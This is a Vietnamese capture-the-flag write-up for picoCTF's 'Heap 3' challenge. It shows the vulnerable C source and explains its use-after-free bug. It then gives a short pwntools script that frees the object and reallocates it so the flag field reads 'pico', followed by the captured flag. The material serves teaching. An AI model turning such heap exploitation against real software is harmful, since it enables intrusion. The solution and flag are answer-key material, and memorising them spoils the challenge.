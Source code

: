 # Heap 3
Tương tự như các challenge `Heap` trước đó, challenge này cho ta 2 file. Một file binary `chall` và một file .c `chall.c`.

Mở file `chall.c` và ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

// Create struct
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;

void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}

void print_menu() {
    printf("\n1. Print Heap\n2. Allocate object\n3. Print x->flag\n4. Check for win\n5. Free x\n6. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

// Create a struct
void init() {

    printf("\nfreed but still in use\nnow memory untracked\ndo you smell the bug?\n");
    fflush(stdout);

    x = malloc(sizeof(object));
    strncpy(x->flag, "bico", 5);
}

void alloc_object() {
    printf("Size of object allocation: ");
    fflush(stdout);
    int size = 0;
    scanf("%d", &size);
    char* alloc = malloc(size);
    printf("Data for flag: ");
    fflush(stdout);
    scanf("%s", alloc);
}

void free_memory() {
    free(x);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x->flag, x->flag);
    printf("+-------------+-----------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            alloc_object();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x->flag);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            free_memory();
            break;
        case 6:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Chương trình vẫn hoạt động theo các lựa chọn như các challenge `heap` trước đó, nhưng lần này có gì đó khác khác...

Chạy thử local thì ta có giao diện sau:

![alt text](image.png)

Nhìn sơ qua code thì ta thấy một dòng gây ra lỗi trong hàm `free_memory()`:

``` c
void free_memory() {
    free(x);
}
```

Đây là dấu hiệu của chương trình mắc phải lỗi bảo mật kiểu [Use - After - Free](https://www.techtimes.vn/lo-hong-su-dung-sau-khi-mien-phi-uaf-la-gi/), sau khi thực hiện lệnh `free(x)` thì con trỏ `x` vẫn còn.

Giờ ta nhìn vào hàm `check_win()`, ta thấy rằng flag sẽ được in khi giá trị của trường `flag` trong struct mà `x` là con trỏ trỏ tới bằng với chuỗi `pico`.

``` c
void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}
```

Ta sẽ khai thác lỗ hổng `Use - After - Free` để làm điều đó.

Đầu tiên chọn `5. Free x`.
Sau đó chọn `2. Allocate object`. Size là 35 (trường flag nằm ở 5 btyes cuối trong struct `object`). Ta nhập 30 kí tự 'a' và chuỗi `pico`.

Ta có file exploit:

``` python 
from pwn import *

#p = process('./chall')
p = remote('tethys.picoctf.net', 52463)
write = b'2'
Size = b'35'
flag = b'4'
free = b'5'
payload = 30 * b'a'
payload += b'pico' 
p.sendline(free) # 5. Free x
p.sendline(write) # 2. Allocate object
p.sendline(Size) # Size = 35
p.sendline(payload) 
p.sendline(flag)
p.interactive()
```

Và ta có flag:
``` 
picoCTF{now_thats_free_real_estate_f8fb9f96}
```
